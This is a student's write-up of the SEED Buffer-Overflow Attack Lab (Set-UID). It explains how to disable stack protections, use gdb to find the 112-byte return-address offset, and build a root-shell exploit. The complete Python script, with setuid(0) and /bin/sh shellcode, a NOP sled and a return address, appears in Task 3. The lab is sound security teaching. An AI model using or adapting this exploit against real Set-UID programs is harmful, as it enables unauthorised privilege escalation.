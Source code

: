 # Buffer-Overflow Attack Lab (Set-UID Version)

This week's suggested lab was Buffer Overflow Attack Lab (Set-UID Version), from SEED labs, with the intent of providing us a better understanding of what buffer overflow attacks are and how they can be used.

## Task 1

After briefly taking a look at how shellcode in assembly code looks like, we tried compiling and running the code provided.

When running the code, we noticed that a shell prompt was given, allowing us to execute any shell commands. By looking at the code, we understand that by storing the shellcode in a variable and invoking it as a function call, we can get access to a shell with low privileges. This happens because our shellcode didn't include the line responsible for the `setuid(0)` execution that changes the Effective-UID, Real-UID, and Saved-UID to 0, meaning root. 

<figure align="center">
  <img src="images/task1_1.png" alt="my alt text"/>
  <figcaption>Figure 1. `call_shellcode.c` program execution</figcaption>
</figure>

Including the aforementioned `setuid(0)` shellcode we get a root shell.

<figure align="center">
  <img src="images/task1_2.png" alt="my alt text"/>
  <figcaption>Figure 2. `call_shellcode.c` program execution with `setuid(0)`</figcaption>
</figure>

## Task 2

In this task, the code of a program vulnerable to buffer overflow attacks is provided to us, in order to analyze, discover the vulnerability and perform an attack, assuming it is a Set-UID program.

To proceed to the next task and develop an exploit, we first compiled the code as 32-bit (``-m32``) and used ``-DBUF_SIZE=100`` (size of the buffer to overflow will be of 100 bytes), before setting root ownership and enabling the Set-UID bit. We also remove the non-executable stack protections (``-z execstack``) and the StackGuard (``-fno-stack-protector``). 

<figure align="center">
  <img src="images/task2.png" alt="my alt text"/>
  <figcaption>Figure 3. Compilation of the program.</figcaption>
</figure>


## Task 3

Our objective following the previous task is to be able to run a shell by providing malicious content in a file to the target program and, by doing so, exploiting the buffer overflow vulnerability present. 

In this case, we want to take advantage of the use of the ``strcpy()`` function to copy the content to a buffer that, in this instance, has an allocated size of 100 bytes, while the program reads up to 517 bytes of data from the ``badfile`` file.

This allows us to insert 417 bytes into the stack beyond the 100 bytes of the buffer, and so replace the return address of the `bof` function with an address pointing to the shellcode that will be inserted in the file as well. By doing this, we can execute a shell when running the program.

### Step 1

In order to do an exploit, we need to know the difference between the buffer starting address and where the return address is located. To do this, we execute the program using ``gdb``, so we can retrieve the ``ebp`` address and the buffer address. 

<figure align="center">
  <img src="images/task3_2.png" alt="my alt text"/>
  <figcaption>Figure 4. Running the program using gdb.</figcaption>
</figure>

<figure align="center">
  <img src="images/task3_3.png" alt="my alt text"/>
  <figcaption>Figure 5. ebp and buffer addresses.</figcaption>
</figure>

- ``ebp``: **0xffffc998**
- `buffer` starting address: **0xffffc92c**

Now we can calculate the difference (0xffffc998 - 0xffffc92c), which is **108 bytes**.

<figure align="center">
  <img src="images/task3_4.png" alt="my alt text"/>
  <figcaption>Figure 6. Stack disposition.</figcaption>
</figure>

As we know how the stack frame disposition should be, we now know that the return address is located in the address next to the ebp, so from the start of the `buffer` to the return address, there is a 108+4=**112** bytes difference in the stack.

### Step 2

Having all the needed information, we started making changes to the python exploit script, that is the following:

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80" # setuid(0)
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)              
content[start:] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffc998 + 8 + 144        
offset = 112              

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

In the ``shellcode`` variable we inserted the shellcode provided in the first task, using the 32-bit version, including the provided line that enables Set-UID. Then, after filling the content of the payload with NOP's, we put the shellcode at the end of the 517 bytes string. This way, if the return address points to any of the NOP's, the execution will end up in the shellcode we insert either way. So, by having the maximum number of NOP's possible before the shellcode, the chances of successfully exploiting the vulnerability increase and it becomes easier.

As for the ``offset``, we used the previously calculated difference, as we know that the return address will be located 112 bytes ahead in the stack compared to the start of the buffer in which we want to insert the payload.

The ``ret`` (value of the return address) could be calculated by using the ``ebp`` address and adding 8 bytes (so the address can point to after the return address location). Although this works using ``gdb``, when running the program without using the debugging information, the actual addresses become larger as ``gdb`` adds some information into the stack. This is because `gdb` has pushed some environment data into the stack before running the debugged program. When the program runs directly without using `gdb`, the stack does not have those data, so the actual frame pointer value will be larger. More information about this can be found [here](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it).

<figure align="center">
  <img src="images/task3_7.png" alt="my alt text"/>
  <figcaption>Figure 7. Stack with and without gdb.</figcaption>
</figure>

So we used this value as a reference and tried to add a larger offset to the return address value, and, in this case, by adding an additional 144 bytes, the exploit worked and we could use the root shell.

<figure align="center">
  <img src="images/task3_5.png" alt="my alt text"/>
  <figcaption>Figure 8. Running the program with exploit on gdb.</figcaption>
</figure>

> **Note**: we noticed that, when using `gdb`, the shell will not run with root privileges, regardless of the program ownership or Set-UID bit and line in the shellcode. This is because the debugger always requires the same privileges as the program in order to debug it.

<figure align="center">
  <img src="images/task3_6.png" alt="my alt text"/>
  <figcaption>Figure 9. Running the program with exploit without gdb.</figcaption>
</figure>